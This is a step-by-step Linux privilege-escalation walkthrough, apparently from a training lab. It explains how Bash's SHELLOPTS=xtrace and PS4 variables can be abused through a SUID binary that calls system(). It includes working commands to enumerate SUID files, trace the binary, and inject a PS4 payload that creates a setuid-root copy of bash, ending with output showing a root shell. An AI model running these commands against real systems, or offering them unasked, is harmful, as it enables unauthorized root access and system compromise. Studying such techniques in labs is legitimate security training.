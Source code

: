 Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace.

By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown.

If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited.

If an SUID file is being executed, this command will execute with the privileges of the file owner.

In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root.

1. Find SUID/SGID files on the target:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2

The suid- - env2 file should execute with root user permissions.

2. Run strings on the SUID file:

```bash
strings /usr/local/bin/suid-env2
```

/usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

[pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 start"]

4. Optionally, we can also verify with ltrace:

```bash
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```

6. Run the /tmp/rootbash file with the -p command line option to get a root shell:

```bash
/tmp/rootbash -p
```

```bash
id
```

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
